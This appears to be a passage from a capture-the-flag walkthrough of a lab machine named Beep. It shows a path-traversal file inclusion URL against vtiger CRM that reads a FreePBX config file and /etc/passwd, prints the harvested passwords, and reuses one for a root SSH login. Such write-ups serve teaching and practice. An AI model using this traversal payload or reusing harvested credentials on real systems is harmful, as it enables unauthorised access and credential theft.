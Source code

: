 Looking at the code of the LFI exploit, we see the LFI is at `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`. By default, this will attempt to read the contents of  `/etx/amportal.conf`. We can do this first, then modify it later to read other files. Running the exploit is not required, since it is an LFI, we can simply paste the URL into a browser. Doing so we see we are able to read the files contents. While formatting is not the best, since a browser tries to render it as HTML. Using `CTL-U` in Firefox, is a shortcut to view-source, which makes it easier to examine.  Reviewing the files contents, we see what appear to be credentials  which we can possibly reuse. 
```bash
# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```
# Initial Access
Recalling from the nmap scan that SSH is open, we can try to login as some users with these credentials. We see the crednetial `jEhdIekWmdjE` used a  few times so should add this to a wordlist for later use. Since we have already validated we can read files via the LFI, we can get a list of users from `/etc/passwd` by using the following URL `view-source:https://10.129.78.9/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action`. From this we can see a few valid users: `root, asterisk, spamfilter, and fanis`. 
```bash
root:x:0:0:root:/root:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

Initial attempts  to use SSH reveal a Key Exchange Algorithm mismatch preventing SSH from working. However, reading the error message and a quick google search provides a solution. P
```bash
ssh root@10.129.78.9 
Unable to negotiate with 10.129.78.9 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1

ssh root@10.129.78.9  -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 -oHostKeyAlgorithms=+ssh-rsa
```
Providing a the password we discovered via the LFI on the root user provided a shell as the root user. This provides us access to both flags.
```bash
[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# whoami
root
[root@beep ~]# ls -la /root/root.txt
-rw------- 1 root root 33 Oct 28 21:22 /root/root.txt
[root@beep ~]# ls -la /home/fanis/user.txt 
```